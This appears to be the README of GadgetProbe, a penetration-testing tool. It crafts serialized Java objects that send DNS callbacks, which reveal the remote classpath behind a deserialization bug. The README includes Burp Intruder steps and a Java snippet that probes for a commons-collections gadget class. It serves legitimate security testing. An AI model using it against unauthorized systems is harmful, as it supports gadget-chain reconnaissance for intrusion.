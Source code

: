 <p align="center">
  <img src="assets/GadgetProbe.svg" width=700/>
</p>

#



![License](https://img.shields.io/badge/license-MIT-lightgrey.svg)
![Python version](https://img.shields.io/badge/java-8%2b-blue.svg)

## Description

You just found a Java deserialization bug, you ran all your ysoserial payloads, and.... you got nothing. What now? How can you debug or build a gadget chain if you're totally blind?

Introducing GadgetProbe, a tool that shines a light on remote classpaths and raises bug severity for all!

GadgetProbe takes a wordlist of Java classes, outputs serialized DNS callback objects, and reports what's lurking in the remote classpath.

### Burp Extension Usage

The Burp extension automatically integrates with Burp Collaborator to handle DNS callbacks. The extension also includes signatures and an analyzer to identify library versions of popular sources for gadgets.

Download the [release](https://github.com/BishopFox/GadgetProbe/releases/) or follow the [build instructions](#building-from-source) below.

After loading the Burp extension:

1. Send the vulnerable request to intruder, highlighting the vulnerable parameter.

![gif](assets/intruder1.gif)

2\. Add a list of Java classes (see included wordlists)

![gif](assets/intruder2.gif)

3\. Add the GadgetProbe payload processor, and any other required processors in your chain (e.g., Base64 encode).

![gif](assets/intruder3.gif)

4\. Run the intruder attack and watch the results come back in the GadgetProbe Burp Tab.

![gif](assets/intruder4.gif)


### GadgetProbe Java Library Usage

GadgetProbe can also be used as a Java library or CLI for specialized attacks.

```java
import com.bishopfox.gadgetprobe.GadgetProbe
...
// Call the GadgetProbe constructor with your authoritative nameserver (or use Burp collaborator).
GadgetProbe gp = new GadgetProbe("dnscallback.burpcollaborator.net");
// The crafted object "obj" is now ready to be sent using any custom implementation :)
Object obj = gp.getObject("org.apache.commons.collections.functors.invokertransformer");

```

### Building from Source
```bash
# Build JAR (run first)
./gradlew shadowJar

# Build wordlists
./generate_wordlists.sh
```

### How it works

See my [write-up](https://know.bishopfox.com/research/gadgetprobe) on the Bishop Fox blog.

### Author

Twitter: [@BumbleSec](https://twitter.com/theBumbleSec)

GitHub: [the-bumble](https://github.com/the-bumble/)
